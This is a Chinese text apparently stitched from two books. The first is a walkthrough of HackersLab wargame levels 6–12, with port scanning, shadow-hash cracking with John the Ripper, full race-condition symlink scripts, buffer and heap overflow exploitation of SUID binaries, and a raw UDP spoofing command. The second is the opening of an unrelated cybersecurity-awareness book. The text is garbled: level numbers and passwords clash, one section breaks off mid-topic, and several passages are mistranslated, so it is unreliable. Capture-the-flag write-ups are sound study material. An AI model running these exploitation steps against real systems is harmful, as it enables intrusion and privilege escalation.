例如：当我连接到像 http://www.visualbooks.com.br 这样的任何网页时，我实际上是在连接到 http://www.visualbooks.com.br:80（visualbooks.com.br，端口 80，即 Web 标准）。到目前为止，这看起来很轻松。但我们面临以下问题——TCP 和 UDP 协议各有 65535 个端口。还有无尽的门。我们如何找出哪些是开放的，哪些不是？通过使用端口扫描器。端口扫描器是试图找出特定 IP 地址或主机上哪些端口开放的应用程序。它们通常可以使用最知名端口的列表，或一个范围（例如：从 1000 到 8000）。它们通常速度极快，结果会迅速返回给我们。常见的端口扫描器会对目标机器执行 TCP connect()。这意味着它执行三个 TCP 认证路径（syn-syn/ack-ack）。使用这种系统，扫描器很容易发现扫描尝试。例如，防火墙或 IDS 会迅速捕获黑客的 IP。为了解决这个问题，现在有更加复杂的扫描器，如 NMAP。NMAP 除了 TCP connect() 外，还可以以多种方式扫描，包括半 syn() 扫描（仅发送 syn）、fin、Xmas 等。每种类型使用不同的标志，使被扫描的主机难以检测。在这个逐步教程中，我将使用两个不同的扫描器：用于 Linux 的 NMAP 和用于 Windows 的 VALHALLA，并尝试找到端口。

我们连接为 level6 并再次进行了基本操作。但现在我们没有任何文件……为什么？当然……我必须找到一个系统访问门，但不要试图破解任何文件的安全设置。让我们先使用 NMAP 来尝试检测端口。在发送 NMAP 扫描 drill.hackerslab.org 后，它返回了三个：23、80 和 6969。现在 23 来自 telnet，80 来自 webserver，而这个 6969 呢？嗯嗯，非常可疑。那么，让我们转到 Windows 下的 VALHALLA。VALHALLA 是我创建的一个程序，除了作为主机和 IP 扫描器外，还是一个端口监控器和端口扫描检测器。可以在 [http://www.anti-trojans.cjb.net](http://www.anti-trojans.cjb.net) 获取。结果几乎相同。发现了端口 23、80、100 和 6969。最可疑的肯定是 6969。让我们 telnet 到它，看看会发生什么。

只需输入 `telnet drill.hackerslab.org 6969`，将端口放在名称前面。结果出来了吗？出现了一个类似于常规 HackersLab 登录的登录提示。它要求输入我的 level6 密码……输入后，bing0! 系统返回给我：assets!! 第 7 关的密码是 **Can't help falling in love**（不由自主地坠入爱河）。我已经说过这一关会很轻松……不是吗？

## 第 7 关题目

登录名: level7  
密码: Can't help falling in love  
学习内容: 破解 Unix / Linux 密码。

许多老派的黑客已经习惯了 DES、shadow、CrackerJack、John the Ripper 这些词……遗憾新一代对这些术语并不熟悉。Unix / Linux 使用一种称为 DES 的密码加密系统。该系统创建一个加密字符串，并将其放在通常名为 `/etc/passwd` 的安全文件系统中。现在使用的是 `/etc/shadow`。他们移动到 shadow 档案中，希望提高安全性，只保留用户名，将原始密码分离。那些获得系统控制权的人可以获取任何文件，即使是 shadow。

典型的 shadow 条目：
`mflavio: yFdrXa1EwNYng: 12126: 0: 99999: 7 :::`

根据上述信息，我们拥有用户名 `mflavio`。加密后的密码：`yFdrXa1EwNYng`。其余的数字是系统标识符（UID、GID 等）。

很好，我在 Linux 上有一个用户的密码，但它是加密的！没问题，我会获取一个解密程序。这听起来可行，但这是不可能的。正如我之前所说，DES 创建哈希值，这是一次性加密系统。它不能被解密。但那么……我们如何找出密码？只需使用你的想象力。思考：如果 shadow 中的密码不能被解密，系统如何将该密码与用户登录时输入的密码进行比较？很简单。系统对新密码进行加密，并比较两个加密值。如果它们相等，那就是密码。

CrackerJack 和 John The Ripper 是允许你使用词库或暴力破解来“破解”Unix / Linux 的程序。它们会使用 DES 对每个单词进行加密，并与密码文件中的密码进行比较。如果结果命中……那就是正确的密码。当然，为此，你需要一个好的词库。词库包含常用密码，并按类别划分，如电影名称、德语单词等……

让我们再次在实践中看看这个过程是如何进行的。

我们登录 HackersLab 并查找 UID 为 level8 和 GID 为 level7 的文件。我们找到了 `/dev/audio2`。我们进入 `/dev` 目录并运行 `./audio`。程序在屏幕上显示一些垃圾信息。但它真的是垃圾吗？它显示了三个字符串（这些字符串可能也可以通过此字符串命令获取）：`level8`、`shadow` 和 `VoE4HoQCFfiMWw2`。嗯，我推测了一下，根据最后一个字符串的哈希面和其他两个字符串，我想我们找到了密码……是加密的。

我们将尝试使用 John the Ripper（可以在 [http://www.blackcode.com](http://www.blackcode.com) 获取）来找出密码。但首先，我们需要停止词库并适配加密密码。有没有一种方法，你可以尝试仅仅通过作为 John the Ripper 命令行输入的哈希值来确定密码？为此，你可以使用单个选项。但为了研究问题，我们获取了一个 shadow 文件，并用我们获得的哈希值替换了 root 密码。因此，我们模拟并破解了一个 shadow 文件。JTR（John The Ripper）将尝试将此列表中的所有单词作为密码。列表已保存为 `passwords.txt`。现在，让我们使用 JTR。JTR 以 `john – wordfile: passwords.txt shadow` 执行（签名说明：亲爱的 John，请使用词库 passwords.txt 来去除将在 shadow 中测试的密码）。它迅速将密码返回给我。

太棒了。这是一个多么奇怪的词？过了一会儿我们发现：`wonderfu` 实际上是英语中的 `wonderful`，是我们列表中的一个词。但他为什么只显示了八个字符（最后一个缺失的 "l"）？这是当 Program File 目录变成文件时发生的同样问题。该程序基于 DOS，只能显示八个字符。当然，你可以在规则中更改这一点。要了解更多信息，请查看 JTR 手册。重要的是，level8 的密码是 **wonderful**！

## 第 8 关题目

登录名: level8  
密码: wonderful  
学习内容: 竞态条件 (Race Conditions)。

在此阶段，HackersLab 挑战发生了许多变化。这些关卡之前的级别相当简单，因此没有太多关于学习的内容可说，现在的变化来自竞态条件。它们的构思比我们现在处理的稍微复杂一些，并且需要更多的知识（包括代码示例）才能正确理解。如果你不懂 C 语言，最好先有一个概念，但现在没关系。理解问题背后的基本概念已经是一个进步。

关于竞态条件问题的这么多理论介绍，对于理解它是如何发生的、两个读取和写入函数之间如何产生问题以及哪些函数可以用来纠正特定问题是必要的。如果你没有 C 语言的概念并在解释中感到“迷失”，我建议你尝试学习一点，因为此关卡之后的所有级别都将使用编程。这一关比之前的关卡高得多，并且可以分步轻松理解。

我们连接为 level8 进入 HackersLab，我们查找 level9 UID 和 level8 GID 的文件。我们找到了题目中提到的 `/usr/bin/ps2`。进入 `/usr/bin` 目录后，尝试运行 `./ps2`。没有任何发生……但真的吗？我们知道它创建一个临时文件，但假设我们没有被告知这一点。因此，我们可以使用 `strace` 命令来“检查”我们的操作。输入 `strace /usr/bin/ps2`（不带引号）。让我们看看命令生成了什么：听起来像个玩笑……那里有我们在学习内容中看到的一切……`open()` 函数打开一个临时文件，没有任何描述符检查，尝试使用 `write()` 函数写入字符串 `hahahahahahaha`，而没有读取任何权限，更糟糕的是，它给我们的是文件名，而不是创建一个随机文件。

让我们尝试创建一些“小脚本”，将 `ps2` 程序创建的临时文件 `/var/tmp2/ps2.tmp` 链接到一些我们感兴趣的内容。你必须使用 VI 文本编辑器创建两个小


## 第 8 关 竞态条件（隐式上下文）

一些小程序或脚本。其中一个将运行 ps2 文件，以便我们在它“关闭” /var/tmp2/ps2.tmp 文件之前享受我们的竞态条件。只需输入 `vi <文件名>`。例如，在第一个脚本中，使用 `vi /var/tmp2/race1` 命令在 `/var/tmp2/`（或其他临时目录）内创建一个名为 `race1`（或其他文件名）的文件。第二个脚本的操作相同。启动 VI 时，输入 `a` 进入编辑模式，并按 `Esc` 返回程序模式。

`race1`:
```bash
while true
do
    /usr/bin/ps2
done
```

`race2`:
```bash
while true
do
    /usr/bin/ps2 &
    rm -rf /var/tmp2/ps2.tmp
    ln -sf /var/tmp2/race1 /var/tmp2/ps2.tmp
done
```

关于 VI 的一点提示：当您输入完成后，按 `Esc` 键；要保存（在按下 Esc 后），输入 `:w`（冒号 + w）；要退出则输入 `:q`（冒号 + q），如下面的示例所示。

让我们来看一下。两个脚本都会循环。第一个（`race1`）通常运行 `ps2` 文件，但不断重复，从而给我们足够长的时间来更改临时文件。第二个脚本（`race2`）再次运行 `ps2` 程序，但作为后台进程（使用 `&`），因此给我们更多时间赢得竞赛。在循环中，`race2` 试图删除临时文件，并用指向 `race1` 文件的链接替换它。

让我们逐行来看，以免复杂化：
- `/usr/bin/ps2 &`：在后台再次运行程序。
- `rm -rf /var/tmp2/ps2.tmp`：删除临时文件。
- `ln -sf /var/tmp2/race1 /var/tmp2/ps2.tmp`：创建一个符号链接；这会用指向第一个脚本的链接覆盖临时文件，因此程序将试图将字符串记录在我们的脚本中，而不是临时文件中。

创建两个脚本后，我们将必须赋予它们执行权限。只需输入命令：`chmod +x race1` 和 `chmod +x race2`，如 `chmod` 前后权限所示。现在我们可以执行了。现在我们必须做一件在 HackingLab 中闻所未闻的事：我们连接两次。也就是说，您将不得不打开两个 telnet 窗口，并同时两次以 `level8` 身份登录。在一个窗口中，通过输入 `.race1` 运行 `race1`，在另一个窗口中，通过输入 `.race2` 运行 `race2`。当您同时运行这两个程序时，屏幕上会出现一些“垃圾”，类似于“文件已存在”。但在运行 `race2` 后，如果 `race1` 已经在运行，您的“垃圾”将变成这样：

“恭喜!! 你的竞态攻击成功了……第 9 关密码是！Secu!”

注意：在这一关，无需担心 `/bin/pass` 文件，因为 `ps2` 本身包含密码。

## 第 9 关 问题

**登录：** `level9`  
**密码：** `! Secu!`  
**学习：** 溢出缓冲区

在这项学习中，我们将查看“缓冲区内存洪泛”（或缓冲区溢出）的原理。基本上，有两种类型的缓冲区溢出：栈溢出，指的是栈；以及堆溢出，指的是堆内存。现在，我们将看到 BOF（缓冲区溢出）的一般理论解释，更具体地说是栈溢出。我们将把堆留给第 11 关（在那里需要它）。

我们正在寻找一个具有 `level10` UID 和 `level9` GID 的文件。我们找到了文件 `/etc/bof`（多具提示性的名字……bof = buffer overflow）。我们列出其权限，看到一些有趣的东西。除了我们的执行权限外，那里还设置了一位。这是一个 `level10` SUID 位。继续检查，我们运行了该程序。它要求您输入一个昵称（`nick_name`）。我写了我的名字，屏幕上显示“hello~ macros_flavio”。作为一个测试，如果我输入一个太长的字符串会发生什么？程序会进行“边界检查”吗？还是我会淹没缓冲区？只是测试一下……我在屏幕上放了很多 "x"。发生了一个错误：段错误（Segmentation fault）。中了！

这意味着我们淹没了缓冲区，并且该程序存在漏洞。那么让我们采取行动吧。在上面，我们已经使用 VI 编写了利用代码并命名为 `exploit.c`。我们使用 `cc exploit.c -o exploit` 编译了它。编译时给出了任何警告，但这没关系，程序已就绪，并且具有执行权限。为了展示 shellcode 环境变量是什么样子的，我输入了 `set` 命令（这并非必需）并显示了上述输出（注意：在输入 `set` 之前，我已经运行了 exploit）。

现在让我们尝试淹没缓冲区。首先，我输入 `./exploit 60` 试图在该地址（0xbfff438）淹没缓冲区。我运行了 `/etc/bof` $RET $EGG（只是为了记住：我们将这些程序都作为 argv，或者作为参数来传递，就好像它们是针对请求程序的名称一样）。在 `$RET` 变量中是我们试图发现的地址，在 `$EGG` 中是 shellcode。什么也没发生。我们尝试了相同的过程，但现在用 80 代替 60。还是没反应。

## 第 10 关 问题

再次尝试 156，并且……它成功了！参见上一图中的 `bash $`。我们命中了正确的地址。当然，这是运气。如果您想让这个过程更容易，可以创建一个循环脚本来尝试多个地址（在第 11 关，我会展示一个）。然后让我们运行 `/bin/pass`。“美女与野兽”是通往第 10 关的密码……

在我们完成连接之前，我们将不得不继续针对目标进行欺骗和嗅探，真心以为它正在与受害者交谈。当然，“手动”执行此操作是非常可怕的，因此有各种应用程序来完成此过程。我们有几十个用于 Linux 的，如 `spoofit`、`tcpreplay`（多平台）等。我们也有用于 Windows 2000 的欺骗 IP 和 MAC 地址的程序。其中一个是 `Superior`，配置 IP 欺骗非常简单，如下图所示。查看附录 B 了解在哪里获取这些程序。

### UDP 欺骗

既然我们已经看到了 IP 欺骗是如何进行的，理解我们将如何进行 UDP 欺骗以获取下一个 HackersLab 级别的密码就更容易了。原理相同，但简单得多。与 TCP 不同，UDP 没有三次握手。它被认为是一种“不可靠”的通信协议，因为如果数据包丢失，并不重要。UDP 广泛用于广播（例如，在 Internet 上流式传输视频或音乐时）。因此，我们不必尝试查找某种序列号来发送欺骗的 UDP 数据包。只需获取此包的报头（仍然在允许我们 RAW 包的主机上）并包含新的“被欺骗”地址。

我们有两种选择来做到这一点：
- 使用出色的 `hping` 工具（www.hping.org），它执行各种类型的欺骗，包括 UDP，例外是结果过滤器。
- 或者我们将编写自己的 C 代码来实现。作为一个教学问题，我们将选择第二种选项。

用我的代码电子邮件交换你的，您将收到密码。记得我在开始时说过很少有人能到达这一关吗？嗯，问题在于：太多的防火墙和路由器会阻止被欺骗的数据包。这意味着在您的计算机和 HackersLab 之间的路线上，路由器很可能会“阻止”被欺骗的包。那该怎么做呢？尝试多条路线……我尝试从我在 Internet 上能找到的几个免费 shell 运行程序，直到从我在福塔莱萨（Fortaleza）的一位朋友的 shell 运行成功，并通过电子邮件收到了密码。

### 分步操作

因此，让我们尝试我们的欺骗。在下图中，我们编译 `udpspoofbr`（或您想要的任何名称），我们在研究部分看到了代码，然后执行它。它询问我们源 IP、源端口、目标 IP 和目标端口。在问题中，它要求我们发送一条消息，仿佛它来自 `www.hackerslab.org`，来自任何端口，到 `drill.hackerslab.org` 的 5555 端口。所以我这样输入命令：

`./udpspoofbr www.hackerslab.org 1234 drill.hackerslab.org 5555`

注意源端口没有区别，所以我们放 1234。但我得到了一个“socket 失败”错误。当然，我必须成为 root 才能做到这一点，否则系统将不允许你操作 RAW 包进行欺骗。让我们以 root 身份再试一次。

现在是的……凭借我适当的 root 权限，我发送了被欺骗的包。这就是为什么如果你家里没有 Linux，你需要它。在 HackersLab 中，你没有 root 访问权限，并且无法发送被欺骗的 UDP 包。几分钟后，我收到了由电子邮件发送给我的消息内容中的一些有趣信息：

“什么？？这意味着我不能吗？（权限被拒绝）？不……这（奇怪地）是下一关的密码。前进到第 11 关！”


## 第 11 级问题

正如堆栈溢出是一种危险一样，堆溢出也是一种危险。每当我们将无限制函数的缓冲区大小与具有 SUID 位和 .root 文件权限的程序这种危险组合结合使用时，我们就制造了一个大问题。充分理解这个概念后，操作步骤将相当简单。找出有问题的文件，选择漏洞利用程序，并修改 `PROGVULN` 和 `ARQVULN` 的值。逐步地，我连接到 HackersLab，找到了问题描述中引用的文件 `/usr/local/bin/hof`。让我们看一下，看看它是否真的会导致分段错误。让我们执行它。

就在这里。它向我们索要第 11 级的密码，随后不久就发生了一次分段错误。就像在堆栈中一样，这是我们的入口点。只是现在情况有所不同。该程序运行如下：如果我们提供正确的密码，它将访问 `passwd.success` 文件（或者如果未发生错误则访问该文件）；如果我们出错，则它访问 `passwd.fail`。我们将尝试利用 `passwd.success`，利用分段错误通过 `hof` 程序的 SUID 权限来访问该文件的内容。我在 VI 中编写我们的漏洞利用程序，并将 `PROGVULN` 常量设置为 `/usr/local/bin/hof`，将 `ARQVULN` 设置为 `/usr/local/bin/passwd.success`。保存。我们编译它（`cc exploit.c -o exploit`），就这样！让我们测试一下，并进行一点十六进制地址的暴力破解，直到我们可以成功为止。

准备好了！经过几次不同地址的尝试后（注意一点：为了找到正确的地址，我们尝试填写地址，直到 PATH `/usr/local/bin/hof` 完整显示在屏幕上）。哇！“我想要永远去爱”就是第 13 级的密码。

## 第 12 级问题

登录名：`level12`
密码：`I want to love forever`
研究主题：简单加密

我们已经讨论过加密，并且从那一关开始，HackersLab 开始重复已经看过的技术（在其他关卡中阅读过）。在第 7 级中，我说过我们必须使用 John the Ripper 程序来尝试找出加密的密码。

我们当时有一个在这个关卡没有的优势。加密算法是已知的，我们甚至有一个现成的程序来完成这项工作。现在，我们只有问题中提到的加密工具：`/usr/bin/encrypt`。目标：使用此程序，尝试编码一些东西，以找出使用的是什么类型的“加密”。我们知道加密后的密码是 `tu|tSI/Z^`。让我们探索一下我们用来弄清楚它如何工作的程序的一小部分。

我们可以使用脚本或代码来尝试为我们做这项工作，但为了避免在 HackersLab VI 中输入程序造成不必要的“手指磨损”，让我们动用头脑。首先：密码 `tu|tSI/Z^` 有九个字符长。如果加密很简单，这很可能就是要加密的原始密码的字符数。这是我们将使用加密进行的第一项测试：

```
$ ./encrypt aaaaaaaaa
encrypted character: 'GGGDBBB-SS'
```

我们使用加密程序加密了由九个字符组成的字符串 `aaaaaaaaa`。从这里开始，让我们改变（踢动）一些值，以试图接近我们的加密值。

```
$ ./encrypt aaa1aaaaaa
encrypted character: 'tGGGBBB-SS'
$ ./encrypt aaaa2aaaaa
encrypted character: 'GuGBBB-SS'
$ ./encrypt aaaaa9aaa
encrypted character: 'GG|BBB-SS'
$ ./encrypt aaa129aaa
encrypted character: 'you|BBB-SS'
$ ./encrypt caa129aaa
encrypted character: 'you|BBB/SS'
$ ./encrypt cha129aaa
encrypted character: 'you|BBB/ZS'
$ ./encrypt chl129aaa
encrypted character: 'you|BBB/Z^'
$ ./encrypt chl1296aa
encrypted character: 'you|tBB/Z^'
$ ./encrypt chl1296rh
encrypted character: 'tu|tSI/Z^'
```

基于试错法，我们设法得出了一个与加密密码对应的值。我做了比上面展示的更多的尝试，但花几页篇幅记录恶意的尝试是有点徒劳的。

当然，当加密涉及大量数字时，机会微乎其微。在这种情况下，你可以编写一个脚本来自动化这个过程。我们是用这个值来到达下一关的密码吗？让我们逐步测试一下。逐步地，我们连接到 HackersLab 并找到了加密程序。现在让我们用我们在研究中彻底测试 `encrypt` 时得到的字符串 `chl1296rh` 来猜测它。然后我们运行 `./encrypt chl1296rh | more`（逐屏显示）。加密将被应用几十次，我们将达到加密结果：

这确实是我们试图匹配的加密密码，即我们被给予的那个。但这有效吗？只是测试一下以确认... 是的！密码有效。这意味着第 13 级的密码是 `chl1296rh`。

## 其他级别……如出一辙

我们将在第 12 级结束对该书的深入研习。既然 HackersLab 有（至少据我目前所知）17 个级别，为什么这么安排呢？问题在于，从第 13 级开始，不再有值得研习的“新”内容了。我认为你不会希望只是通过关卡而不学习。好吧，让我们假设第 13 到 17 级是一套你所学习的内容加上一点 C 语言的混合。之后的研习将只是一本“C 语言书”，包含巨大的代码和许多注释，而且，我相信你现在已经很好地理解了挑战的运作方式，需要休息一下，给大脑换个活络方式。

为了稍作帮助，我将列出剩余的级别，并写出每个级别涉及的主题类型。这样，你就知道该遵循的“路径”了。

- **第 13 级**：这一级处理套接字编程。遵循级别问题的规范（在 www.hackerslab.org 上可见），使用头文件 `protocol.h` (http://www.hackerslab.org/erog/fhz/proto.h)，并根据你的说明构建一个程序，计算距离并将该值三次发回服务器以获取密码。
- **第 14 级**：这一级要求你知道 C 语言、`execve` 是什么以及如何使用 GDB 设置断点。这非常令人烦恼。但物有所值！使用函数指针进行溢出。与我们之前所做的差别不大。重读堆溢出章节，那里有解决此问题所需的一切。
- **第 16 级**：更多的堆栈溢出……可能稍微复杂一点，但它仍然是经典的老堆栈溢出！！！
- **第 17 级**：我不会剧透你的惊喜……来看看就知道了！！！ :-)

## 结论

感谢坚持读完 *Kali Linux for Hackers*。希望它信息丰富，并能为你提供实现目标所需的所有工具，无论你的目标是什么。

管理员应与时俱进，应对黑客的武器。当然，Kali Linux 并不包含网络犯罪分子使用的所有工具。但借助于包含的工具，可以追踪到相对明显的弱点。本书试图引导读者穿过 Kali Linux 部分复杂的使用场景。

这本书的好处在于，它不仅详细介绍了 Kali Linux 中的工具及其使用，还针对被利用的漏洞本身进行了讨论。这使得经验较少的用户能够理解潜在的危险在哪里。

最后，如果你以任何方式觉得这本书有用，请随时在 Amazon 上发表评论！

## 黑客基础安全

学习有效的安全方法以及如何管理网络风险

具备攻防策略工具的意识计划

黑客攻击的艺术

### 引言

首先，我要赞扬你下载了这本书《黑客基础安全：学习有效安全方法以及如何管理网络风险。具备攻防策略工具的意识计划。黑客攻击的艺术》。这本书包含了你所需要的一切，包括针对处理电脑安全问题的最佳方式建立的步骤与策略。你将学习如何保护自己免受那些不惜一切代价破坏你的安全基础设施的恶意黑客的攻击。

本书将指导你如何准备应对任何想要侵入你的个人数据或侵犯你隐私的人。今天，数百万互联网用户每天都遭受攻击，每天损失数十亿美元，因为他们缺乏基本的安全专业知识。阻止这些黑客非常困难，因为你打交道的是那些会不择手段去得到他们想要的人。然而，这并不意味着你不能保护自己。你可以停止这些由黑客实施的活动；你可以学习如何进行黑客攻击，不是为了欺诈活动，而是为了保护自己免受任何恶意黑客的攻击。

无论你喜欢与否，网络安全不仅影响你的邻居，它影响世界上的每个人。无论你的业务性质、地点或你引以为豪的安全功能如何。即使你住在美国，即使它据称是安全意识最强的国家，你也不安全。不可否认，任何驾驶者的安全都会影响路上的其他司机。这就像在特定环境中隔离一个患有流感的人。这样做可以防止疾病在社区其他区域传播。维持适当的网络安全措施也影响着世界。


大多数时候，当我们谈论网络安全时，我们会侧重于设备，因为设备往往最容易受到影响，也是黑客获取我们信息的最便捷途径。一台受感染的设备可能会危及其他系统，这进一步使所有者的信息和服务数据容易受到黑客的侵害。没有比现在更合适的时候来谈论网络安全了，因为如今每个年轻人的生活几乎 80% 都在线上。我们如何向这些年轻人灌输网络安全的重要性？尽管这些人可能不会使用信用卡或银行卡进行在线购物，但他们正在让黑客或网络犯罪分子更容易访问他们的个人数据和账户。除此之外，在社交媒体和电子邮件中的不良习惯以及弱密码，只是黑客更容易入侵人们计算机的手段之一。

## 网络安全当前的问题

你从床上起身，脑海中浮现的第一个念头就是你的手机。你查看最近的事件、日程安排，然后注销。接着你洗了澡，穿好衣服，便开始了新一天的工作。到达办公室后，在意识到自己正处于“自动驾驶”模式之前，你已喝完了第一杯咖啡。

在没有任何考虑的情况下，我们在离开前关上门是合乎逻辑的。至少为了我们的安全，我们系上安全带并不是因为我们对它们感到舒适。同样的道理也适用于骑自行车时戴头盔。你绝不会在不查看是否有来车的情况下就穿过街道。事实是，我们将各种安全措施融入日常生活，以应对现实生活中的危险。然而，许多人尚未回答的一个问题是：他们是否准备好在数字世界中生存？

当你阅读这本书时，你可能就是那 10 亿互联网连接用户中的一员。你是那些互联网用户之一，无论何时只要你：

- 点击一个链接
- 就任何内容执行谷歌搜索
- 发送或接收即时消息
- 下载或安装应用程序
- 在博客、社交网络或网页上发布内容
- 在社交媒体上“点赞”内容
- 通过在线商店购买物品

这份列表是无尽的，因为互联网让我们能够做远超想象的事情。我们产生的信息量远超任何人的想象，而我们常常低估这些信息。我们低估它们的价值和数量，并轻视许多重要的事情。我们在进行各种在线活动时，对生成的信息类型变得越来越不在意。无论你是否相信，都有人希望以你的不利为代价获取这些信息。

一旦我们连接到互联网，我们的信息就仿佛变成了黄金。我们开始像住在玻璃房子里的人一样生活。住在玻璃房子里的缺点是，路过你附近的人能看到你在做什么。同理，当我们的设备处于未受保护状态时，我们就会让黑客利用我们的信息。

我知道“黑客”这个词对不同的人意味着不同的东西。今天，根据使用该词的特定语境，其含义可能会有所不同。例如，如果你查字典，你会发现它的含义与喜欢探索可编程系统复杂性并寻找压榨其潜能方法的人有关。这与那些致力于学习这项技能的人不同。这并不指那些主要动机是在网络上进行欺诈活动的人。尽管如此，如果你在网络上或媒体上的各种出版物中查找，你会发现“黑客”一词通常指的是从事网络犯罪的人。有时，他们被称为破解者（crackers）、黑帽（black hats）或攻击者。这些攻击者的主要动机是从无辜的在线用户那里赚钱。在动机并非金钱的情况下，它可能是一种炫耀其能力的方式，或仅仅是出于意识形态原因。

作为用户，你应该关心的是，这些攻击者每天都会创建复杂的攻击方法来窃取敏感信息吗？遗憾的是，他们之所以能成功，是因为用户没有采取必要的安全措施来缓解其策略。你或许会感兴趣地了解到，与世界上任何其他行业相比，犯罪活动带来的收益巨大。最近的一份报告指出，网络攻击的成本高于自然灾害。

## 第 1 章：网络安全的基础与重要性

### 网络安全基础

信息技术行业的创新正在推动效能和易用性；这代表了一大笔具有重要价值的财富。如果你观察了技术的本质，此时你应该知道，这些属性（技术的效能和易用性）随着时间推移将会增加。当各个组织拥抱不同的网络安全方法来保护其数据和信息时，个人将在线安全视为至关重要是势在必行的。鉴于此，我整理了个人网络安全所需的四大基础。事实依然是，单靠政府无法拉紧这根弦，我们每个人都有重要的角色要扮演。以下个人网络安全的四大基础不仅适用于个人，公司和工作场所的员工也可以遵守它们。

### 设备保护

我们所有的电子设备和装置，如平板电脑、平板、笔记本电脑、智能手机等，始终都连接到互联网。为了避免任何信息泄露或入侵，个人必须使用现有的最佳安全保护功能来保护这些设备。幸运的是，技术的一项最新创新带来了有效且高质量的防护系统，而这些系统以前仅对大型公司提供。关于你的设备保护，必须遵守以下预防措施。

- 你的设备应配备实时杀毒软件及其他防御系统
- 必须具备远程管理功能，该功能无需用户输入或行为修改即可移除威胁
- 密码管理应用程序必须在各种移动设备平台上都能轻松运行

### 互联网连接保护

仅保护你的设备是不够的，因为一旦你的设备连接到网络，它就可能成为受害者。因此，你的设备需要更多防御措施来保护其中通过互联网传输的每一项信息。

你的设备应拥有自己的虚拟专用网络（VPN）以加密你的位置。我将在后续章节中详细讨论 VPN，因为它对你的网络安全至关重要。然而，一个好的 VPN 会给你带来巨大益处，因为它将保护你的位置、身份、银行交易、购物和浏览历史。它还保护你在线交易的信息，无论是商业还是个人事务。

### 电子邮件通信保护

你个人网络安全的第三个基础是保护你的电子邮件通信。统计数据显示，大多数黑客通过电子邮件通信获取进入你个人信息的“后门”。遗憾的是，例如在美国，许多消费者期望电子邮件是免费的，这使我们忽视了隐私的基本意识。

在使用电子邮件通信时，重要的是使用采用开源软件的电子邮件服务提供商，以确保跨各种技术平台和架构的可移植性、安全性和兼容性。此外，该服务必须在个人电子邮件通过互联网发送时自动剥离元数据信息和 IP 位置。

### 文件和电子文档的保护与备份

我们有各种远程备份服务，以合理的价格提供备份服务。此外，在这一代人中，将文档保存在云端的便利性听起来很诱人。然而，并非所有文档都适合通过此过程处理。你也可以使用数字保险库来保存关键和敏感文档。敏感文档包括出生证明、扫描的护照、纳税申报表、信托、遗嘱、社会保障卡等。

在你的个人或公司中推广个人网络安全过程的这四大基础，有助于将网络安全意识提升到更高的水平。有趣的是，如果你不希望任何人侵犯你的隐私，这些解决方案虽然重要但并不昂贵。

### 网络安全的重要性

我们生活在一个日常生活中不断在线进行的世界。忽视关于计算机和网络安全在线上面临的问题是惊人的。然而，大多数人只有在出现全国性挑战时（如名人照片泄露或顶级政治家安全漏洞）才会意识到这些问题。尽管如此，我们面临着常见的网络犯罪，其普遍程度往往比那些全国性问题更高。你会同意我的看法，每天我们都遭受网络犯罪分子或黑客的猛烈攻击，他们想方设法使受害者受害。

遗憾的是，大多数受害者让这些网络犯罪分子轻易得逞。只有少数这些黑客或犯罪分子是幕后主使或精通此道的人。此外，缺乏网络安全意识和无知使得这些犯罪分子更容易轻车熟路地针对他们的受害者。借此，他们可以在受害者毫无抵抗的情况下窃取其身份并入侵其信息。


例如，美国约有 3,000 家公司报告了有关公司安全漏洞的各种问题。不幸的是，这些公司不包括那些经营小型在线业务的公司，但包括家得宝（Home Depot）和塔吉特（Target）等大型零售商。信用卡信息和客户数据被窃取，从各种账户中收集的资金被盗，其他知识产权也遭到泄露。在大多数情况下，这些黑客会入侵公司的内部系统，并扣押这些文件作为赎金。根据统计，网络犯罪每年给全球经济造成约 4000 亿美元的损失。因此，世界各地的组织和公司不断将网络安全视为首要任务，通过遵循各种标准来实现这一点。

## 网络安全的关键因素

在过去十年中，网络安全已成为一个持续的挑战和优先事项。这些黑客构成的威胁似乎比旨在应对这些威胁的防御机制更具智慧。此外，有迹象表明，除非迅速采取措施，否则威胁将持续存在。人们安全意识增强这一现象并不令人惊讶。这促使网络安全专家投入时间来对抗这一祸害。

有各种因素清楚地表明了在这个时代网络安全的重要性。打击欺诈行为是一个重大问题，实时进行打击比事后解决是应对局面的更好方法。我想指出一些需要给予最高关注的重要网络安全因素，以及潜在的解决方案。

### 信息战

鉴于数据在全球范围内的重要性，信息战如今正变得流行。按照当前趋势，有预测表明这场战争在未来几年将占据主导地位。除了对经济具有破坏性的数据窃取外，个人数据也成为目标，从而使人们更加脆弱。

### 新漏洞

先进的最新技术也不例外，因为它们正在经历指数级增长，这成为了新漏洞的温床。研究估计，熟悉的风险将占网络安全事件的 80%。

### 云存储安全

由于本地存储系统容量有限，大多数组织依赖云来存储其数据。这可能对其隐私构成重大威胁。不稳定和不安全的访问问题对任何人的机密信息都构成巨大威胁。为了解决这个问题，创建云决策模型有助于控制使用这些数据的相关人员。

### 物联网（IoT）

如今，大多数企业严重依赖互联网技术进行数据传输和访问。然而，这些企业并未意识到使用这些新技术带来的潜在挑战。此外，物联网面临的一个严重威胁是其个人数据容易受到漏洞攻击。另外，使用默认密码机制和有缺陷的通信方式也构成了巨大威胁。另一个威胁可能是隐私泄露。

### 区块链和勒索软件安全

病毒、恶意软件、勒索软件和特洛伊木马是常见的网络安全威胁，受感染系统的文件会被加密。这些攻击者加密这些文件，意图在提供解密密钥之前向受害者索取赎金。不幸的是，这些受害者可能被迫支付，却无法确定攻击者是否会释放密钥。区块链安全的可能性可能成为一种显著现象。区块链安全将在未来几年中扮演核心角色。

## 认证工具

过去用于网络安全的认证工具是为通用目的设计的。然而，随着威胁水平的增加，需要实施新的基于风险的认证工具。使用这些工具，可以在一定程度上防止可能的数据泄露。

## 非技术人员的培训

组织必须考虑对其非技术人员的培训，因为网络安全是每个人的责任。此外，举办关于网络安全益处和重要性的研讨会或培训，将是减少网络犯罪威胁的好措施。

## 人工智能

人工智能的使用在与网络罪犯和黑客的斗争中可以产生显著影响。在一定程度上，它将弥补网络安全专家短缺的弱点。

## 数字生态系统

网络安全的角色不应被轻视，因为它影响着世界。随着你继续阅读这本书，你会了解网络安全及其威胁如何在世界上产生巨大影响。在这方面，每个个人都必须在数据的安全、隐私和保护方面发挥作用。

## 安全技术集成

这个因素将是我们需要领先于安全威胁的游戏改变者。随着当前趋势，集成中心正在增加，公司正依赖安全技术以更好的方式管理其状况。为了制定全面的网络安全计划，这必须包括内容保护、密码、IP、隐私、数据安全以及相关的加密技术。如果你想领先于任何威胁并控制局面，你必须了解当前的安全技术。

